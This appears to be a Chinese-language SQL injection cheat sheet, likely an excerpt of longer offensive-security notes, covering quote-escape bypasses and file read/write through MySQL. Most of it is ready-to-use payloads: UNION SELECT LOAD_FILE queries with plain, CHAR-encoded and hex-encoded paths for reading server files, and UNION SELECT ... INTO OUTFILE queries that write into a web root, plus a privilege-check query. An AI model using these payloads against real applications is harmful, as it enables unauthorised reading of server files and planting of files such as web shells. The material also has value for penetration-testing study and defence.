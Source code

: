 #### 利用`\`
```
index.php?name=%**%5c%5c%27
```

## 二次注入

## 文件读写
利用sql注入可以导入导出文件，获取文件内容，或向文件写入内容。
查询用户读写权限：
```
SELECT file_priv FROM mysql.user WHERE user = 'username';
```
### load_file()读取
#### 条件
+ 需要有读取文件的权限
+ 需要知道文件的绝对物理路径。
+ 要读取的文件大小必须小于 max_allowed_packet

```
SELECT @@max_allowed_packet;
```

#### payload

直接使用绝对路径,注意对路径中斜杠的处理。
```mysql
UNION SELECT LOAD_FILE("C://TEST.txt") #

UNION SELECT LOAD_FILE("C:/TEST.txt") #

UNION SELECT LOAD_FILE("C:\\TEST.txt") #
```
使用编码
```
UNION SELECT LOAD_FILE(CHAR(67,58,92,92,84,69,83,84,46,116,120,116)) #

UNION SELECT LOAD_FILE(0x433a5c5c544553542e747874) #
```

### select导出
#### 条件
+ 一般要指定绝对路径
+ 需导出的目录有可写权限
+ 要outfile出的文件不能已经存在

#### payload
```
UNION SELECT DATABASE() INTO OUTFILE 'C:\\phpstudy\\WWW\\test\\1';

UNION SELECT DATABASE() INTO OUTFILE 'C:/phpstudy/WWW/test/1';
```
